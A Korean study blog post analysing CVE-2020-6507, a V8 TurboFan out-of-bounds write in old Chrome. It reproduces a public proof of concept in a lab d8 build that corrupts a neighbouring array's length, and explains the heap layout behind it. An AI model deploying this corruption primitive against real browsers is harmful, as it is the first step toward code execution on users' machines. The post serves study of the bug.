





> 스스로 공부하면서 다시 보기 위해 개인적으로 정리한 글이며, 틀린 부분이 존재할 수 있습니다. ai와 함께 학습한 내용이고, 트러블 슈팅 과정이 들어가 있기 때문에 성공담만 보고 싶으신 분이라면 적절하지 않은 글일 수 있습니다.

# CVE-2020-6507

- 대상: Google Chrome의 JavaScript 엔진인 V8
- 유형: Out-of-bounds write
- 영향: V8 힙 메모리 손상 가능
- 공격 조건: 악성 JavaScript가 포함된 웹페이지를 사용자가 열도록 유도
- 심각도: High
- 수정된 Chrome: 83.0.4103.106
- Chromium 버그 번호: 1086890
- 보고자: Google Project Zero - Sergei Glazunov

CVE-2020-6507은 Chrome의 JavaScript 엔진인 V8에서 발생하는 OOB Write(Out-of-Bounds Write) 취약점이다. 쉽게 말해, 배열에 값을 쓸 때 그 배열에 할당된 메모리 범위 바깥까지 써 버리는 버그다.

이 취약점은 두 가지 문제가 겹쳐서 발생한다.

1. **최대 길이 검사 누락**: Double 배열의 내부 저장소(`FixedDoubleArray`)는 원래 67,108,862칸을 넘을 수 없다. 그런데 일부 배열 함수에서 이 검사가 빠져 있어서, 한도를 넘는 배열을 만들 수 있다.
2. **TurboFan의 가정이 깨짐**: V8의 최적화 컴파일러인 TurboFan은 "Double 배열의 길이는 67,108,862를 넘지 않는다"고 가정하고 코드를 최적화한다. 1번 때문에 이 가정이 깨지면, TurboFan이 인덱스 범위를 잘못 계산하게 되어 "필요하면 배열을 늘려 주는 처리"와 범위 검사를 지워 버리게 된다.

그 결과 최적화된 코드가 배열 범위 밖의 메모리에 값을 쓰게 된다.



## 들어가기 전 용어 정리

**V8과 실행 환경**
- **V8**: Chrome에 들어 있는 JavaScript 엔진. 웹페이지의 JS 코드를 받아서 실행하는 프로그램이다.
- **d8**: V8만 따로 떼어 터미널에서 JS를 실행할 수 있게 만든 프로그램. 브라우저 없이 V8을 테스트할 때 쓴다.
- **Debug 빌드 / ASan 빌드**: 같은 V8 소스를 다른 옵션으로 컴파일한 것. Debug 빌드는 내부 검사와 디버깅 정보가 추가된 버전이다. ASan(AddressSanitizer) 빌드는 잘못된 메모리 접근을 감지하는 기능이 들어간 버전이다.
- **스모크 테스트(Smoke test)**: 빌드가 기본적으로 동작하는지만 빠르게 확인하는 간단한 테스트. (원래는 굴뚝에 이상유무를 확인하려고 하는 테스트에 사용되는 용어였다. TMI)

**메모리**
- **힙(Heap)**: 프로그램이 실행 중에 필요할 때마다 메모리를 할당받아 쓰는 공간. JS에서 배열이나 객체를 만들면 V8은 힙에 공간을 잡아 저장한다. 힙에 만들어진 것을 **힙 객체**라고 부른다.
- **주소와 포인터**: 메모리의 각 위치에는 번호(주소)가 붙어 있다. 어떤 값이 다른 객체의 주소를 담고 있으면 그 값을 **포인터**라고 한다. 이때 "A가 B를 가리킨다(참조한다)"고 말한다.
- **OOB Write**: 할당받은 메모리 범위를 벗어난 곳에 값을 쓰는 버그. 바로 옆에 있는 다른 데이터를 덮어써서 망가뜨린다.

**TurboFan**
- **인터프리터와 TurboFan**: V8은 처음에는 인터프리터(Ignition)로 JS 코드를 한 줄씩 해석하며 실행한다. 같은 함수가 많이 호출되면 그 함수를 빠른 기계어로 번역(최적화)해서 실행하는데, 이 번역기가 **TurboFan**이다.
- **JIT 컴파일**: 프로그램 실행 도중(Just-In-Time)에 코드를 기계어로 번역하는 방식이다.
- **워밍업**: 함수를 일부러 수천 번 호출해서 TurboFan이 최적화하도록 만드는 것.
- **범위 분석(Typer)**: TurboFan이 변수마다 "최소 몇, 최대 몇"인지를 미리 계산해 두는 과정. 예를 들어 `x = Math.max(y, 0)`이면 x는 0 이상이라고 기록한다.
- **경계 검사(Bounds Check)**: 배열에 접근할 때 인덱스가 범위 안에 있는지 확인하는 검사. TurboFan은 "절대 범위를 벗어나지 않는다"고 판단하면 속도를 위해 이런 검사를 지운다.

**기타**
- **PoC(Proof of Concept)**: 취약점이 실제로 존재한다는 것만 보여주는 최소한의 코드.
- **Smi**: V8이 별도의 힙 객체 없이 바로 저장할 수 있는 작은 정수. 본문에서 자세히 다룬다.

이제 본격적으로 실습으로 확인해보자.

# V8 Version 확인

재현에 사용할 버전은 `8.3.110.9`이다. 구축한 V8 환경이 이와 일치하는지 먼저 확인했다. (이전 포스팅 참고)

```bash
echo "=== Git ==="
git describe --tags --always
git log -1 --oneline
git status --short

echo "=== Revision ==="
cat ../../logs/vuln-v8-revision.txt
cat ../../logs/vuln-v8-commit.txt
```

위 명령을 그대로 수행하면 결과가 다음과 같이 나오면 된다.

```bash

=== Git ===
8.3.110.9
3b627511511 (HEAD, tag: 8.3.110.9) Version 8.3.110.9
=== Revision ===
3b627511511f00c552ced504c1f182bdcc3480af
commit 3b627511511f00c552ced504c1f182bdcc3480af
Author:     V8 Autoroll <v8-ci-autoroll-builder@chops-service-accounts.iam.gserviceaccount.com>
AuthorDate: Thu May 7 09:17:08 2020 -0700
Commit:     v8-ci-autoroll-builder <v8-ci-autoroll-builder@chops-service-accounts.iam.gserviceaccount.com>
CommitDate: Thu May 7 16:17:38 2020 +0000

    Version 8.3.110.9
    
    TBR=v8-ci-autoroll-builder@chops-service-accounts.iam.gserviceaccount.com
    
    Change-Id: I4314fdd46171f7cbc2736e63869d55ac9c34344d
    Reviewed-on: https://chromium-review.googlesource.com/c/v8/v8/+/2188190
    Reviewed-by: v8-ci-autoroll-builder <v8-ci-autoroll-builder@chops-service-accounts.iam.gserviceaccount.com>
    Cr-Commit-Position: refs/branch-heads/8.3@{#19}
    Cr-Branched-From: 1668abddd8147c49c8f2f90b78dc2701f3794a30-refs/heads/8.3.110@{#1}
    Cr-Branched-From: 04a7a680a2838e1789f277495181e709e14a17ba-refs/heads/master@{#66926}
```

d8 버전도 확인해주자.

```bash
ubuntu@ubuntu-VMware-Virtual-Platform:~/security-lab/cve/CVE-2020-6507$ cd ~/security-lab/cve/CVE-2020-6507

echo "=== Vulnerable Debug ==="
./workspace/v8/out/vuln-debug/d8 --version

echo "=== Vulnerable ASan ==="
./workspace/v8/out/vuln-asan/d8 --version

echo "=== Smoke Test ==="
./workspace/v8/out/vuln-debug/d8 poc/smoke.js
=== Vulnerable Debug ===
Warning: unknown flag --version.
Try --help for options
V8 version 8.3.110.9
d8> ^C
=== Vulnerable ASan ===
Warning: unknown flag --version.
Try --help for options
V8 version 8.3.110.9
d8> ^C
=== Smoke Test ===
2
```

해당 버전에서는 `--version`이 없어서 대화형 모드로 진입하게 되는데, 이때는 그냥 `Ctrl+c`로 빠져나와 주면 된다.

마지막으로 ASan 빌드도 정상 실행되는지 확인했다. 이번에는 대화형 모드(REPL)에 들어가지 않고, -e 옵션으로 짧은 코드를 바로 실행했다.

```bash
ubuntu@ubuntu-VMware-Virtual-Platform:~/security-lab/cve/CVE-2020-6507$ cd ~/security-lab/cve/CVE-2020-6507

./workspace/v8/out/vuln-debug/d8 \
  -e 'print("Debug OK:", 1 + 1)'

./workspace/v8/out/vuln-asan/d8 \
  -e 'print("ASan OK:", 1 + 1)'
Debug OK: 2
ASan OK: 2
```

모든게 정상적으로 동작하니 이제 PoC 재현으로 넘어가보자.

# PoC 재현

여기서는 공개된 PoC를 통해 실습을 진행해볼 것이다.

공개된 PoC는 배열 두 개를 연달아 만든다. 

두 배열은 메모리에서 바로 붙어 있기 때문에, 첫 번째 배열의 끝을 넘어서 값을 쓰면 두 번째 배열의 데이터를 덮어쓰게 된다. 

PoC는 이 방법으로 두 번째 배열의 `length` 값을 망가뜨리는 것을 목표로 한다.



(실제 힙 배치는 빌드 설정과 메모리 할당 상태에 따라 달라질 수 있음)

```bash
ubuntu@ubuntu-VMware-Virtual-Platform:~/security-lab/cve/CVE-2020-6507/poc$ ls -al | grep cve-2020-6507.js
-rw-rw-r-- 1 ubuntu ubuntu    0 Oct 29 13:45 cve-2020-6507.js
```

우선 poc 폴더에 cve-2020-6507.js 파일을 만들고(touch 명령) 아래 내용을 작성했다.

```JavaScript

const array = Array(0x40000).fill(1.1);
const args = Array(0x100 - 1).fill(array);

args.push(Array(0x40000 - 4).fill(2.2));

const giant_array = Array.prototype.concat.apply([], args);
giant_array.splice(giant_array.length, 0, 3.3, 3.3, 3.3);

print("[1] giant_array.length:", giant_array.length);

const length_as_double = new Float64Array(
    new BigUint64Array([0x2424242400000000n]).buffer
)[0];

function trigger(array) {
    let x = array.length;

    x -= 67108861;
    x = Math.max(x, 0);
    x *= 6;
    x -= 5;
    x = Math.max(x, 0);

    let corrupting_array = [0.1, 0.1];
    let corrupted_array = [0.1];

    corrupting_array[x] = length_as_double;

    return [corrupting_array, corrupted_array];
}

print("[2] Warming up TurboFan...");

for (let i = 0; i < 30000; i++) {
    trigger(giant_array);
}

const result = trigger(giant_array);
const corrupted_array = result[1];

print("[3] corrupted_array.length:", corrupted_array.length);
print("[4] corrupted_array.length (hex):",
      corrupted_array.length.toString(16));

if (corrupted_array.length !== 1) {
    print("[+] Unexpected array length detected!");
} else {
    print("[-] Array length unchanged.");
}
```

해당 코드는 원본 PoC의 브라우저 전용 함수 `alert()`를 d8에서 쓸 수 있는 `print()`로 바꾸고, 중간 결과를 볼 수 있게 출력문을 추가했다. (추후 하나씩 뜯어보며 동작을 확인할 예정이다.)

이 코드는 PoC인 만큼 배열 길이 손상 여부만 확인하며, 임의 주소 읽기, 쓰기나 쉘코드 실행 같은 Post Exploit 단계는 들어있지 않다.

## 실행

이 PoC는 메모리를 많이 쓴다. 

giant_array 하나만 해도 원소 약 6,700만 개 × 8바이트 ≈ 512MB이고, 만드는 과정에서 복사본도 생긴다... 

그래서 실행 전, VM 스냅샷을 찍어 두고 실행했다.

```bash
ubuntu@ubuntu-VMware-Virtual-Platform:~/security-lab/cve/CVE-2020-6507$ ./workspace/v8/out/vuln-debug/d8 \
  poc/cve-2020-6507.js
[1] giant_array.length: 67108863
[2] Warming up TurboFan...
[3] corrupted_array.length: 303174162
[4] corrupted_array.length (hex): 12121212
[+] Unexpected array length detected!
```

실행하면 원래 길이가 1이어야 할 `corrupted_array`의 length가 303,174,162(0x12121212)로 바뀐 것을 볼 수 있다. 

코드를 보며 결과 값에 대해 이해해보자.

```JavaScript
const array = Array(0x40000).fill(1.1);
const args = Array(0x100 - 1).fill(array);
```

PoC 코드 첫 부분에는 다음과 같은 코드가 들어간다.

`0x40000`은 262,144이고, `0x100-1`은 255이다.

같은 배열 255개에 마지막 배열 하나를 더해 `concat()`으로 이어 붙이면,

`262144 X 255 + (262144-4) = 67108860`.

`splice()`로 원소 3개를 추가하면,

`67108860 + 3 = 67108863`

이 되게 된다.

하지만, 이 취약한 버전에서 `FixDoubleArray`의 최대 허용 길이는 **67,108,862**이기 때문에, 정상적인 한도보다 1개 큰 배열이 만들어지게 된다.

> `concat()` 과 `splice()`를 구분한 이유?
> `concat()`은 결과 길이가 한도를 넘는지 검사하므로, 한도 바로 아래(67,108,860)까지만 만든다. 
> 그다음 길이 검사가 빠져 있는 `splice()`로 한도를 넘기기 위해서다.

이후 `trigger()` 내부에서 인덱스는 다음과 같이 계산된다.

\< 연산 >: \< x값 >
`array.length`: 67,108,863
`x -= 67108861`: 2
`x = Math.max(x, 0)`: 2
`x *= 6`: 12
`x -= 5`: 7
`x = Math.max(x, 0)`: 7

즉, 길이가 2인 `corrupting_array`에 대해 인덱스 `7`로 쓰기를 시도하게 된다. (OOB Write 가능성 확인)

## 이해가 잘 안됨...

먼저 정상적인 JavaScript 배열부터 이해해보자.

```JavaScript
let a = [0.1, 0.1];
let b = [0.1];

a[7] = 3.3;

print(a.length); // 8
print(b.length); // 1
```

당연하게도 a, b는 서로 다른 배열이다.

a는 원소가 2개, b는 원소가 1개이다.

근데 여기서 a의 인덱스에 7을 넣으면(`a[7]`) JavaScript는 배열을 확장해서 길이를 8로 만든다.



이처럼 JavaScript에서는 배열 길이보다 큰 인덱스에 값을 넣는 것 자체가 정상적인 동작이다. (특이하네...)

V8은 이때 더 큰 저장소를 새로 할당해서 배열을 늘려 준다. 그래서 b는 아무 영향도 받지 않는다.

대신 문제는 TurboFan(V8의 최적화 코드)이 최적화한 코드에서는 이 "늘려 주는 행위"가 빠질 수 있다는 것이다.

그렇게 되면 7번 인덱스의 값이 a에 할당된 공간(2칸)을 벗어나 인접한 다른 객체의 메모리에 그대로 쓰여질 수 있다. (OOB Write)

## TurboFan이 예상한 값 vs 실제 값 비교

`trigger()`를 30,000번 호출하는 이유는 워밍업(자주 호출되면 TurboFan으로 보내기 때문)이다. 많이 호출된 함수는 TurboFan이 최적화하고, 이때 TurboFan은 범위 분석으로 각 변수가 가질 수 있는 값의 범위를 계산한다.

TurboFan은 Double 배열의 `length`가 0 ~ 67,108,862 범위라고 가정한다. 하지만 실제로 넘어오는 `giant_array`의 길이는 67,108,863이다. 이 1의 차이 때문에 계산이 진행될수록 예상과 실제가 어긋나게 된다!

| 코드 | TurboFan이 예상한 x의 범위 | 실제 x 값 |
|---|---|---|
| `x = array.length` | 0 ~ 67,108,862 | 67,108,863 |
| `x -= 67108861` | -67,108,861 ~ 1 | 2 |
| `x = Math.max(x, 0)` | 0 ~ 1 | 2 |
| `x *= 6` | 0 ~ 6 | 12 |
| `x -= 5` | -5 ~ 1 | 7 |
| `x = Math.max(x, 0)` | 0 ~ 1 | 7 |

TurboFan은 마지막 x가 0 또는 1밖에 될 수 없다고 판단한다. `corrupting_array`의 길이는 2이므로, TurboFan 입장에서 `corrupting_array[x]`는 "항상 범위 안"인 접근이다. 그래서 배열을 늘려야 하는지 확인하는 처리와 범위 검사를 필요 없다고 보고 제거한다. (정확히 어떤 단계에서 어떻게 제거되는지는 나중에 다뤄보자...)

하지만 실제 x는 7이다! 결국 최적화된 코드는 길이 2짜리 배열의 7번 인덱스, 즉 할당된 범위 밖에 검증없이 값을 쓰게 된다.

`* 6`과 `- 5`는 예상값과 실제값의 차이를 벌리기 위한 계산이다. 예상 최댓값 1은 `1 × 6 - 5 = 1`로 그대로 1이지만, 실제값 2는 `2 × 6 - 5 = 7`이 된다. TurboFan의 예상 범위는 0~1로 유지하면서, 실제 인덱스만 원하는 위치(7)로 보내는 것이다.

## 출력 결과 값 해석을 조금 더 해보자면...

`corrupting_array`와 `corrupted_array`는 연달아 만들어져서 메모리에 붙어 있는 상태이다.

`corrupting_array`의 원소 저장소를 기준으로 8바이트씩 세어 보면 배치는 다음과 같다. 

```
인덱스  내용 (8바이트)          누구의 것?
[0]     0.1                     corrupting_array의 원소 저장소
[1]     0.1
[2]     map      | properties   corrupting_array (JSArray)
[3]     elements | length
[4]     map      | length       corrupted_array의 원소 저장소 헤더
[5]     0.1                     corrupted_array의 원소
[6]     map      | properties   corrupted_array (JSArray)
[7]     elements | length       ← 여기에 값을 씀
```

포인터 압축 빌드에서는 map, length 같은 필드가 4바이트씩이라 한 칸에 두 개씩 들어간다. (왼쪽이 하위 4바이트)

즉 7번 칸이 바로 `corrupted_array`의 `length`가 있는 자리다.

여기에 쓰는 값은 `0x2424242400000000`이다. 상위 4바이트 `0x24242424`는 `length`에, 하위 4바이트 `0x00000000`은 `elements`에 들어간다.

`corrupting_array`는 Double 배열이라 넣는 값이 Double로 저장된다. 

그래서 원하는 8바이트를 그대로 쓰려면 같은 비트 패턴을 가진 Double이 필요하다. 

`length_as_double`은 같은 메모리(buffer)를 공유하는 `BigUint64Array`에 정수로 값을 넣고, `Float64Array`로 같은 8바이트를 Double로 읽어 온 것이다. (값은 그대로 두고 해석 방식만 바꾸는 트릭?)

그런데 출력된 길이를 보면 `0x24242424`가 아니라 `0x12121212`인 것을 볼 수 있었다. 

V8은 `length`를 Smi로 저장하는데, Smi는 값을 왼쪽으로 1비트 밀어서(× 2) 저장한다. 그래서 메모리에 `0x24242424`가 적혀 있으면 V8은 이를 `0x24242424` ÷ 2 = `0x12121212`(303,174,162)로 읽고 저장하게 된다.

결과적으로 실제로는 원소가 1개뿐인 `corrupted_array`가 자기 길이를 3억 개 이상으로 믿게 되고, 이 배열로 저장소 바깥의 메모리를 읽고 쓸 수 있게 된다.

### 주의 사항?
```
- elements 포인터가 NULL로 덮어써졌기 때문에, %DebugPrint로 corrupted_array 정보를 출력하려 하면 역참조 과정에서 segfault가 나게된다. 
- trigger()가 두 배열을 함께 반환하는 것도 이 배치를 유지하기 위해서이다. corrupted_array만 반환하면 escape analysis가 corrupting_array의 JSArray 객체를 최적화로 없애 버려서, length 위치가 7번이 아니라 5번 인덱스가 된다. 
```

이제 PoC 코드를 하나씩 뜯어보자.

## PoC 코드 분석

```JavaScript
const array = Array(0x40000).fill(1.1);
```

첫 부분을 보면, `array`라는 변수를 선언한다. 길이는 `0x40000`(262,144) 만큼 생성하고, 원소를 `1.1`로 채운다.

> 왜 1.1 로 채웠을까?

여기서는 원소를 정수가 아닌 부동소수점 숫자(Double)를 이용했다.

그 이유는 V8이 배열의 원소를 `FixedDoubleArray`라는 내부 자료구조에 저장하도록 유도하기 위해서이다. 

그렇다면 `FixedDoubleArray`는 무엇이고, 왜 Double이어야 할까?

### JSArray

```JavaScript
let arr = [1.1, 2.2, 3.3];
```

다음과 같이 작성된 코드가 있다고 해보자.

얼핏봐서는 단순한 배열처럼 보이지만, V8은 JavaScript의 일반적인 배열을 내부적으로 `JSArray`라는 힙 객체로 표현한다.



(구조를 단순화한 그림으로, 실제 수조, 헤더 크기, 포인터 표현은 버전과 빌드 설정에 따라 달라질 수 있음)

`JSArray`의 주요 구성 요소는 다음과 같다.

| 필드 | 설명 |
|---|---|
| map | 객체의 타입과 내부 구조를 설명하는 Map 객체를 참조 |
| properties | 일반적인 이름 기반 속성을 저장하는 영역을 참조 |
| elements | 숫자 인덱스를 통해 접근하는 원소 저장소를 참조 |
| length | JavaScript 배열의 논리적인 길이 |

여기서 중요한 부분은 `elements`이다.

`JSArray` 객체에 모든 원소의 값이 직접 들어 있는 것이 아니라, elements 라는 필드를 통해 별도의 원소 저장소를 참조할 수 있다.

즉, 저 코드에서 `arr[0]`을 읽으면 V8은 `JSArray`가 참조하는 `elements` 저장소에서 값을 가져온다.

그림을 보면 알겠지만, `JSArray`와 `FixedDoubleArray`는 서로 다른 역할을 한다.

- `JSArray`: 배열 객체 자체. 배열의 길이, 객체의 구조 정보, 원소 저장소를 가리키는 포인터 등을 관리
- `FixedDoubleArray`: 배열의 실제 숫자 원소들을 저장하는 내부 메모리 공간

그럼 이제 `FixedDoubleArray`가 뭔지 알아보자.

### FixedDoubleArray

`FixedDoubleArray`는 V8 내부에서 64비트 부동소수점(Double) 값을 연속적으로 저장하는 고정 길이 **힙 객체**이다.

아까 위에서 본 코드인 `arr[]` 배열의 원소들은 V8 내부에서 다음과 같이 저장된다.



(각 원소는 IEEE 754 64비트 부동소수점 표현으로 저장되며, 하나의 원소가 8바이트를 차지함)

`FixedDoubleArray`는 크게 다음 정보로 구성된다.

- Map: 해당 힙 객체의 타입을 식별하기 위한 정보
- Length: 원소 저장소가 가진 원소 슬롯의 개수
- Elements: 실제 Double 값들이 저장되는 영역

여기서 Fixed는 해당 저장소 객체의 길이가 생성 시 결정되고, 생성 이후에는 변경되지 않는다는 의미이다.

하지만 아까 이야기한 것처럼 JavaScript 배열은 늘어날 수 있고, push() 등의 연산을 통해 길이를 변경할 수 있다.

그렇다면, 고정 길이인 `FixedDoubleArray`를 사용하면서 어떻게 Javascript 배열의 길이를 변경할 수 있을까?

### JavaScript 배열의 길이 변경

다음 코드를 살펴보자.

```JavaScript
let arr = [1.1, 2.2];
arr.push(3.3);
```

우선 첫 번째 줄을 실행하면 V8은 JSArray 객체를 생성하고, Double 원소를 저장하기 위한 `FixedDoubleArray`를 사용하게 될 것 이다.

초기 상태를 단순화 하면 다음과 같다.

```
JSArray A
    length = 2
    elements ───────┐
                    |
                    v
              FixedDoubleArray B
                  length = 2
                  [0] = 1.1
                  [1] = 2.2
```

그리고 두번째 코드가 실행된다.

```JavaScript
arr.push(3.3);
```

V8은 새로운 원소를 추가하기 전에 기존 원소 저장소에 여유 공간이 있는지 확인한다.

만약, 저장 공간이 부족하다면 다음과 같은 과정이 발생할 수 있다.

1. 기존 저장소보다 큰 FixedDoubleArray를 새로 할당한다.
2. 기존 원소인 1.1, 2.2를 새로운 저장소로 복사한다.
3. 새로운 원소인 3.3을 추가한다.
4. JSArray.elements가 새 저장소를 참조하도록 변경한다.
5. JSArray.length를 3으로 변경한다.

이 과정을 거치면 상태는 다음과 같이 바뀐다.

```
JSArray A
    length = 3
    elements ────────────┐
                         |
                         v
                   FixedDoubleArray C
                       length = 3 이상
                       [0] = 1.1
                       [1] = 2.2
                       [2] = 3.3

기존 FixedDoubleArray B
    length = 2
    [0] = 1.1
    [1] = 2.2
```

B는 더 이상 아무도 참조하지 않으므로 나중에 GC(가비지 컬렉터)가 회수한다.

이때 새로운 `FixedDoubleArray`의 길이가 반드시 3이 되는 것은 아니다. V8은 이후 원소 추가 연산을 위해 필요한 크기보다 큰 저장소를 할당할 수 있다.

반대로 기존 저장소에 충분한 여유 공간이 있다면 새로운 객체를 할당하지 않고 기존 저장소를 사용할 수도 있다.

정리하자면, **JavaScript 배열의 길이가 증가하더라도 기존 `FixedDoubleArray` 자체의 길이가 변경되는 것은 아니며, 필요하다면 새로운 저장소를 할당하고, JSArray가 참조하는 elements를 교체하는 방식으로 배열 확장을 처리한다.**

### JSArray.length와 FixedDoubleArray.length 차이

여기까지 쭉 공부했다면, JSArray와 FixedDoubleArray 모두 length를 가지고 있다.

하지만 이 역시 서로 다른 길이를 의미한다.

- `JSArray.length`: JavaScript에서 접근할 수 있는 배열의 논리적 길이
- `FixedDoubleArray.length`: 내부 저장소에 할당된 원소 슬롯의 개수

```
JSArray
 ├── length = 3
 └── elements ─────────┐
                       │
                       ▼
               FixedDoubleArray
                ├── length = 5
                ├── [0] = 1.1
                ├── [1] = 2.2
                ├── [2] = 3.3
                ├── [3] = <hole>
                └── [4] = <hole>
```

여기서 JavaScript 배열의 길이는 3이지만, 원소 저장소에는 5개의 슬롯이 할당되어 있다.

나머지 두 슬롯은 향후 배열 확장을 위해 사용할 수 있는 공간이며, 유효한 JavaScript 배열 원소로 취급되지 않는다.

정리하면, **배열의 논리적인 길이와 내부 저장소의 길이는 반드시 같을 필요가 없다!**

참고로 `FixeddoubleArray`의 length를 저장 용량(Capacity)의 개념으로 이해할 수 있지만, 해당 값은 단순한 용량 정보가 아니라 실제 내부 힙 객체의 원소 슬롯 수를 나타낸다.

### Elements Kind

그럼 여기서 생기는 한 가지 의문...

> 왜 V8은 모든 JavaScript 배열을 FixedDoubleArray로 저장하지 않을까?

일단 답부터 말하자면 JavaScript 배열에는 정수, 부동소수점 숫자, 객체 등 서로 다른 종류의 값이 저장될 수 있기 때문이다.

V8은 배열 원소의 저장 및 처리 방식을 구분하기 위해 **Elements Kind**라는 내부 분류 정보를 사용한다.

이것도 예시를 통해 살펴보자.

```JavaScript
let a = [1, 2, 3];
let b = [1.1, 2.2, 3.3];
let c = [{}, {}, {}];
```

V8에서는 일반적으로 다음과 같은 Elements Kind를 사용한다.

| 배열 | Elements Kind | 저장소 |
|---|---|---|
|[1, 2, 3]|PACKED_SMI_ELEMENTS|FixedArray|
|[1.1, 2.2, 3.3]|PACKED_DOUBLE_ELEMENTS|FixedDoubleArray|
|\[{},{},{}]|PACKED_ELEMENTS|FixedArray|

잠깐 용어의 의미들을 살펴보자.

- SMI(small integer): V8이 태그가 붙은 정수 형태로 표현할 수 있는 작은 정수
- DOUBLE: 64비트 부동소수점 숫자
- ELEMENTS: 일반적인 Tagged Value를 저장하는 원소 유형
- PACKED: 배열의 유효한 원소 범위에 빈 인덱스(Hole)가 없는 유형

`FixedArray`와 `FixedDoubleArray`의 주요 차이점은 원소를 저장하는 방식이다.

#### FixedArray VS FixedDoubleArray

`FixedArray`는 V8의 Tagged Value를 저장하는 고정 길이 힙 객체이다.

Tagged Value는 Smi나 입 객체 참조 등을 표현할 수 있다. 따라서 정수 배열이나 객체 참조 배열 등의 원소 저장소로 사용될 수 있다.

- **Tagged Value**: 이거도 할말 많은데... 간단하게 말해서 V8이 값 하나를 한 칸(포인터 압축 빌드에서는 4바이트)에 저장할 때, 맨 끝 비트로 "이게 정수인지, 힙 객체의 주소인지"를 표시해 두는 방식이다.   
맨 끝 비트가 0이면 Smi(작은 정수), 1이면 힙 객체의 주소다. 그래서 Smi는 값을 왼쪽으로 1비트 밀어서 저장한다. 예를 들어 정수 3은 메모리에 6(`0b110`)으로 적힌다. 앞의 결과 해석에서 0x24242424가 0x12121212로 읽힌 이유가 바로 이것이다. (Smi도 Tagged Value의 한 종류임)

`FixedDoubleArray`는 64비트 Double 값을 직접 저장한다.

일반적인 Tagged Value 방식에서 부동소수점 숫자를 별도의 HeapNumber 객체로 표현해야 하는 경우와 달리, Double 값 자체를 연속된 원소 영역에 저장할 수 있다.

이 방식은 불필요한 객체 할당과 참조 접근을 줄이고, 숫자 원소에 대한 연산을 효율적으로 처리하는 데 도움이 된다.

### PACKED와 HOLEY

Elements Kind에는 값의 종류 뿐만 아니라 배열에 빈 인덱스가 존재할 수 있는지를 나타내는 분류도 있다.

```JavaScript
let a = [1.1, 2.2, 3.3];
let b = Array(3);
```

위 두 코드를 비교해보자.

a는 처음부터 3개의 원소가 존재하니 일반적으로 `PACKED_DOUBLE_ELEMENTS`로 분류된다.

반면 b는 길이가 3이지만 인덱스 0, 1, 2에 원소가 존재하지 않는다.

이렇게 원소가 존재하지 않는 인덱스를 **Hole**이라고 한다.

따라서 b는 `HOLEY_SMI_ELEMENTS` 등의 HOLEY 계열 Elements Kind로 생성될 수 있다.

다음 코드도 살펴보자.

```JavaScript
let b = Array(3);
b.fill(1.1);
```

`fill()`을 실행하면 모든 인덱스에 값(1.1)이 들어간다. 

Double 값이 들어오는 순간 `HOLEY_SMI_ELEMENTS → HOLEY_DOUBLE_ELEMENTS`로 전이된다. 모든 Hole이 채워져도 PACKED로 돌아가지는 않는다. 

